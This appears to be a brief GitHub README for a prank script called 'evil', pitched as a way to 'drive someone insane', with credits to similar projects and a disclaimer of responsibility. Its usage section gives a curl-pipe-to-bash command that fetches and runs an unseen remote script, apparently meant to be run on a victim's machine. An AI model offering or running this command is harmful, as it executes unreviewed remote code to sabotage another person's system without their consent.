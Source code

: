 # evil
How do you drive someone insane?

#Usage
```
curl -s "https://raw.githubusercontent.com/johnny-y-wang/evil/master/troll.sh" | bash /dev/stdin 
```

#Credit
https://github.com/tlrobinson/evil.css

https://github.com/mathiasbynens/evil.sh

#Disclaimer
I'm not responsible for any evil caused by this script. Public domain.
